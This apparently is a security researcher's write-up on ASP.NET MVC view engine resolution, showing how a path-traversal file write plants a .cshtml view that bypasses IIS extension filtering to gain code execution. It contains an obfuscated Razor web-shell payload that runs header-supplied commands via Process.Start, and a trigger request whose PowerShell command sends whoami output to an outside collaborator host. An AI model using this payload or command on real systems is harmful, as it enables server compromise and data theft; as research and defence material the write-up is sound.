

<small>RCE thoughts by Diyan Apostolov</small>


Imagine this: you’ve gained path traversal with file-write access directly into the web root, but the server is locked down tight - .aspx, .cshtml, .vbhtml, and other executable view extensions are blocked from being served. Only non-executable file types like .js, .css, .less, and .map are allowed through. Recently, I dove headfirst into a challenging .NET application  and successfully pieced together my zero .NET knowledge into something that finally makes sense. 

In this article, we’ll explore the ASP.NET MVC View Engine search pattern - a powerful yet often overlooked mechanism that drives how views, partial views, and layouts are located and rendered. While it may seem like a small detail, understanding this pattern gives greater flexibility and control over your application’s presentation layer. Let’s walk through the mechanics, confirm the behavior with system traces, and reveal how - even under strict extension restrictions - this pattern becomes the key to bypassing defenses and achieving code execution.

---
# ASP.NET MVC flow

When an HTTP request arrives at an ASP.NET MVC application, the framework goes through a multi-stage process to find and render the appropriate view. This involves **routing → controller execution  → view resolution → rendering**. Here are steps details

### Stage 1: Request Routing


>[!info] Step 1: HTTP Request
```
- GET /Products/Details/5
```

↓

> [!info] Step 2: URL Routing Engine
```
- IIS receives the request and ASP.NET MVC's UrlRoutingModule intercepts it
```

↓

>[!info] Step 3: Route Table Match
```
- Controller: "Products"
- Action: "Details"
- Id: 5
```

↓

>[!info] Step 4: Controller Factory
```
- Creates ProductsController Instance
```

**What happens:**
1. IIS receives the HTTP request
2. ASP.NET MVC's UrlRoutingModule intercepts it
3. Routes are matched against patterns in RouteConfig.cs (typically {controller}/{action}/{id})
4. Framework extracts controller name, action name, and parameters
5. Controller class is instantiated via ControllerFactory


### Stage 2: Controller Action Execution

```.NET
public class ProductsController : Controller
  {
      public ActionResult Details(int id)
      {
          var product = GetProductById(id);
          // Option 1: Return view with default name
          return View();
          // Option 2: Return view with explicit name
          return View("ProductDetails");
          // Option 3: Return view with model
          return View(product);
          // Option 4: Return view with name and model
          return View("ProductDetails", product);
      }
  }
```


**What happens:**
6. The Details action method executes
7. Business logic runs (database queries, calculations, etc.)
8. Method returns an ActionResult (typically ViewResult)
9. If return View() is called → **View Resolution Process Begins**

### Stage 3: View Engine Resolution Process

At this stage, we encounter a noteworthy behavior that every bug bounty hunter, penetration tester, or attacker should recognize and understand.
### View Engine Registration
ASP.NET MVC maintains a collection of **View Engines** in ViewEngines.Engines.

> [!note] ViewEngines.Engines Collection
```
[0] RazorViewEngine      ← Searches for .cshtml, .vbhtml
[1] WebFormViewEngine    ← Searches for .aspx, .ascx
```

> [!note] Each view engine has:
```
- **ViewLocationFormats** - where to search for views
- **PartialViewLocationFormats** - where to search for partial views
- **AreaViewLocationFormats** - where to search in Areas
- **FileExtensions** - which file types to look for
```

### RazorViewEngine Search Paths
Here are the **actual default search paths** for RazorViewEngine:

```
ViewLocationFormats = new[]
  {
      "~/Views/{1}/{0}.cshtml",
      "~/Views/{1}/{0}.vbhtml",
      "~/Views/Shared/{0}.cshtml",
      "~/Views/Shared/{0}.vbhtml"
  };  
PartialViewLocationFormats = new[]
  {
      "~/Views/{1}/_Header.cshtml",
      "~/Views/{1}/_Header.vbhtml",
      "~/Views/Shared/_Header.cshtml",
      "~/Views/Shared/_Header.vbhtml"
  };
AreaViewLocationFormats = new[]
  {
      "~/Areas/Blog/Views/Posts/Details.cshtml",
      "~/Areas/Blog/Views/Shared/Details.cshtml",
      "~/Views/Shared/Details.cshtml"
  };
```

**Placeholders:**
- {0} = View name (e.g., "Details")
- {1} = Controller name (e.g., "Products")

### View Resolution Flow Diagram

>[!info] Step 1: Controller returns View()

↓

>[!info] Step 2: ViewResult.ExecuteResult()
```
- Determines view name (action name if not specified)
- Gets controller context
```

↓

>[!info] Step 3: ViewEngineCollection.FindView()
```
- Iterates through all registered engines
```

↓

>[!info] Step 4: View Engines Search
```
- RazorViewEngine: Search for view in order
- WebFormViewEngine: Search for view in order
```

↓

>[!info] Step 5: Returns ViewEngineResult
```
- Success: Contains IView instance
- Failure: Contains searched locations
```

↓

>[!question] Step 6: View Found?

↓

> [!success] If YES: Render View

> [!failure] If NO: Throw Exception
```
- "View not found" (lists all searched paths)
```

### Detailed Search Example

Scenario: Controller returns View() from ProductsController.Details()

Search Order (RazorViewEngine):
>[!info] Iteration 1
```
- Check: ~/Views/Products/Details.cshtml
- File.Exists("C:\inetpub\wwwroot\MvcApp\Views\Products\Details.cshtml")
```

↓

>[!failure] Result: NAME NOT FOUND

↓

>[!info] Iteration 2
```
- Check: ~/Views/Products/Details.vbhtml
- File.Exists("C:\inetpub\wwwroot\MvcApp\Views\Products\Details.vbhtml")
```

↓

>[!failure] Result: NAME NOT FOUND

↓

>[!info] Iteration 3
```
- Check: ~/Views/Shared/Details.cshtml
- File.Exists("C:\inetpub\wwwroot\MvcApp\Views\Shared\Details.cshtml")
```

↓

>[!success] Result: SUCCESS - File found!

↓

>[!info] Step 4: Load and compile view

↓

>[!success] Step 5: Return IView instance

! Note: 
  When you call /Controller/Method, and trace it (via procmon for example) you see these file access attempts:

  >[!example] Process Monitor Output
  > Process: w3wp.exe
  > Operation: CreateFile

```
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Views\Controller\Method.cshtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Views\Controller\Method.vbhtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Views\Shared\Method.cshtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Views\Shared\Method.vbhtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Controller\Method.cshtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Controller\Method.vbhtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Controller\Method\default.cshtml
  PATH NOT FOUND: C:\inetpub\wwwroot\App\Controller\Method\index.cshtml
```
### Stage 4: View Compilation and Rendering

>[!info] Step 1: View file found
```
- e.g., Details.cshtml
```

↓

>[!question] Step 2: Is view already compiled in cache?

↓

>[!success] If YES: Use cached assembly
```
- Skip compilation, use existing .dll
```

> [!info] If NO: Begin Compilation Process

↓

> [!info] Step 3: Razor Parser
```
- Converts @{} syntax to C# code
- Generates .cs file
```

↓

> [!info] Step 4: C# Compiler (csc.exe)
```
- Compiles to .dll
- Stores in Temporary ASP.NET Files folder
```

↓

>[!info] Step 5: Execute compiled view
```
- Calls view.Render()
- Executes @{} code blocks
- Generates HTML output
```

↓

> [!success] Step 6: HTML Response
```
- Response sent to client
```


### Stage 5: Custom View Locations (Extended Search)

Some applications extend the default search paths:
```
public class CustomRazorViewEngine : RazorViewEngine
{
  public CustomRazorViewEngine()
  {
	  ViewLocationFormats = new[]
	  {
		  // Standard paths
		  "~/Views/{1}/{0}.cshtml",
		  "~/Views/Shared/{0}.cshtml",
		  // Custom paths (DANGEROUS!)
		  "~/{1}/{0}.cshtml",                    // Root controller folder
		  "~/{1}/{0}/default.cshtml",         // Default view in action folder
		  "~/{1}/{0}/index.cshtml",             // Index view in action folder
		  "~/Templates/{1}/{0}.cshtml",          // Custom templates folder
		  "~/Content/Views/{1}/{0}.cshtml"       // Views in content folder
	  };
  }
}
```

---
# Flows for file access in IIS/ASP.NET MVC

Next peach of the puzzle is the web.config and the flows how IIS and ASP.NET MVC deal with file restrictions. Here is an example of web.config restricting file extensions
```
<security>
<!-- Prevent "double escaping": if the URL after 2x escaping gives a different result,
	 that is suspicious. -->
<requestFiltering allowDoubleEscaping="false">
  <requestLimits maxUrl="204800" maxQueryString="204800" />

  <!-- Prevent certain character sequences in a URL. ".." for example. -->
  <denyUrlSequences>
	<add sequence=".." />
  </denyUrlSequences>

  <!-- Only allow file extensions js and css (and . for empty file extension) -->
  <fileExtensions allowUnlisted="false">
	<add allowed="true" fileExtension=".js" />
	<add allowed="true" fileExtension=".css" />
	<add allowed="true" fileExtension=".map" />
	<add allowed="true" fileExtension=".less" />
	<add allowed="true" fileExtension="." />  <!-- Empty extension = no extension -->
  </fileExtensions>
</requestFiltering>
</security>
```

## IIS Request Filtering vs. Internal File Access
### Flow 1: Direct File Requests (BLOCKED by Web.config)


>[!info] Step 1: HTTP Request
```
- GET /Views/Home/Index.cshtml
```
↓

>[!warning] Step 2: IIS Request Filtering Module
```
- Checks fileExtensions whitelist
- .cshtml is NOT in whitelist
```
↓

> [!failure] Step 3: BLOCKED!

↓

>[!failure] Step 4: 403.7 Forbidden
```
- File extension denied
```

### Flow 2: MVC View Engine Internal Access (NOT BLOCKED)

>[!info] Step 1: HTTP Request
```
- GET /Controller/Method
```

  ↓

> [!info] Step 2: IIS Request Filtering Module
```
- URL has empty extension (.)
- Empty extension IS in whitelist
- No ".." in URL
```

ALLOWED - Passes to ASP.NET


↓

> [!info] Step 3: MVC Routing

- Matches: {controller}/{action}
- Creates: ControllerController
- Calls: Method()
```

↓

>[!info] Step 4: Controller returns View()

↓

>[!warning] Step 5: View Engine (Internal File Access)
```
- File.Exists() calls from w3wp.exe
- BYPASSES IIS Request Filtering!
- Can access ANY file extension
```

↓

>[!info] Step 6: Check ~/Controller/Method.cshtml

↓
  
>[!info] Step 7: File.Exists('C:\inetpub\wwwroot\App\Controller\Method.cshtml')
  
↓
  
>[!success] Step 8: SUCCESS - File found!
  
↓
  
>[!danger] Step 9: Razor Engine Compiles and Executes
```
- Parses @{} code blocks
- Compiles to .NET assembly
- EXECUTES server-side code
```

**Result**: Remote Code Execution
View Engine can access ANY FILE on the file system, regardless of extension whitelist!

**IIS Request Filtering operates on HTTP REQUEST URLs**
- Blocks: /Views/Home/Index.cshtml (URL ends with .cshtml)
- Allows: /Home/Index (URL has empty extension)

**View Engine operates on INTERNAL FILE PATHS**
- Uses: File.Exists(), File.ReadAllText() from .NET Framework
- Bypasses IIS entirely - it's just .NET file I/O
- Can access ANY file the w3wp.exe process has permissions to read

**Request Filtering ONLY protects against direct URL access**
- Cannot protect against internal file operations
- Cannot protect against path traversal in application code
- Cannot protect against View Engine file discovery

## Why This Security Gap Exists

>[!info] IIS Request Pipeline

↓

>[!info] Phase 1: IIS Native Modules (BEFORE ASP.NET)
```
Request Filtering Module:
- Checks URL for blocked sequences ("..")
- Checks file extension whitelist
- Operates on HTTP REQUEST URL ONLY
```

↓

>[!question] Is request blocked?

↓

>[!failure] If YES: Return 403.7 error

>[!success] If NO: Continue to ASP.NET

↓

>[!warning] Phase 2: ASP.NET Managed Code (AFTER IIS Filtering)
```
MVC Framework:
- Routing
- Controller execution
- View Engine file system access
```

---
# Attack: Path Traversal + View Engine RCE
In this section, we’ll examine a real-world scenario where path traversal grants file-write access, but with a catch: existing files cannot be overwritten. You’re free to create files of any type, yet the web server only serves specific extensions—meaning your .aspx or .cshtml files won’t be directly accessible or executed.
### Step 1: Store payload

In our scenario, we had the `/NoteEntry/UpdateNote` endpoint, which allowed storing notes in the application without any input sanitization. As a result, nothing prevented us from writing directly to the database. This is where we’ll store our .NET payload.

```
@{var c=System.Text.Encoding.ASCII.GetString(new byte[]{99,109,100,46,101,120,101});var k=System.Text.Encoding.ASCII.GetString(new byte[]{67,109,100});var a=System.Text.Encoding.ASCII.GetString(new byte[]{47,99,32})+Request.Headers[k];System.Diagnostics.Process.Start(c,a);}
```

### Step 2: Path Traversal Write

We identified a POST endpoint at `/NotesReport/StartCreateReport` that accepts a FileName parameter — for example, `FileName=C:/inetpub/wwwroot/NotesReport.cshtml`. This endpoint generates a report based on stored notes (supporting filtering, so we can isolate just our note).
Below is a ProcMon capture taken during a request (prior to placing `NotesReport.cshtml` on disk), showing the moment the controller returns View() and the view engine begins resolving the view path.



To validate the ASP.NET MVC view resolution behavior, we observed the actual file system activity (via ProcMon) while the controller—located in the MVC area—executed return View().
Despite the controller residing in an Area named MVC, the Razor View Engine followed its standard search pattern across multiple conventions and extensions

This confirms the full, predictable search hierarchy—critical for placing our payload in a location the engine will eventually resolve.

### Step 3: Trigger Execution

> [!info] GET /NotesReport
```
GET /NotesReport HTTP/2
Host: redacted
Cmd: powershell -nop -c "iwr -useb http://oyq3xdzb4av5oszlrakgpdyvxm3dr6iu7.oastify.com/output?=$([Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((whoami))))"
```

>[!info] IIS Request Filtering ALLOWS this because
```
- URL has empty extension (.)
- No ".." in URL
- Matches MVC route pattern
```

>[!info] View Engine Resolution
```
	 [Searching for views...]
	 ✓ File.Exists("C:\inetpub\wwwroot\App\Controller\Method.cshtml")
	 ✓ FOUND!
```

   >[!info] Razor Engine EXECUTES the file:
```
     - Parses @{...} code blocks
     - Compiles to .NET assembly
     - Executes: Process.Start("cmd.exe")
     - Remote Code Execution achieved!
```


>[!warning] Why Web.config Doesn't Stop This
```
1. Path traversal happens in APPLICATION LOGIC, not in URL
2. Malicious file has valid extension (.cshtml) for View Engine
3. Request URL (/Controller/Method) passes all IIS filters
4. View Engine file access is INTERNAL, bypasses IIS filtering
5. File extension whitelist only applies to HTTP requests, not to internal File.Exists() calls from .NET code
```
